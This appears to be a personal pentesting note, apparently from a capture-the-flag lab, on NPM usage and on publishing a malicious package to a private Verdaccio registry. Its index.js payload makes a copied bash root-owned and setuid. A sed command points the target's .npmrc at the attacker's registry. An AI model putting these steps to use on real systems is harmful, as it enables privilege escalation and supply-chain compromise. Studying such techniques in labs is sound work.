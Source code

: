 
# NPM

NPM (Node Package Manager) is the packet manager for [[NodeJS]] applications.

General usage:
```bash
npm init -y # Initialise
npm install --save ../Logger
# Verify module installation
node 
> module.paths 
# Link instead of install for large depenedency and development "reasons.."
npm link # to link the module
```

#### Malicious NPM Package

Enumerate vulnerable packages
```bash
# Search a registry
npm search ---registry http://$target:$port
# Install packet to registry
npm install $package --registry $registry
```

[Digital Ocean Node.js Module creation](https://www.digitalocean.com/community/tutorials/how-to-create-a-node-js-module)

Using Verdaccio as an example to create a registry to host packages
```bash
# Example assumes you have access
# Pull the latest version
sudo docker pull verdaccio/verdaccio
# Run -it sudo tty --rm to delete when done, bind port to host
sudo docker run -it --rm --name verdaccio -p 4873:4873  verdaccio/verdaccio
# Update auth and flag that exists for legacy authentication 
nmp adduser --registry http://10.10.10.10 --auth-type=legacy
# cat ~/.npmrc for authToken
# Initialise a Malicious NPM Package
npm init 
# Version > target npm 
# make index.js
'require("child_process").exec("chown root:root /tmp/shell;chmod 4755 /tmp/shell")'

npm login --registry http://10.10.10.10:4873 --auth-type=legacy
npm publish --registry http://10.10.10.10:4873

# Target
# update Target.npmrc 
sed -i 's/127.0.0.1/10.10.14.43/g' /home/kavi/.npmrc
# Copy bash for setuid 
cp /bin/bash /tmp/shell
```


## References

[Digital Ocean Node.js Module creation](https://www.digitalocean.com/community/tutorials/how-to-create-a-node-js-module)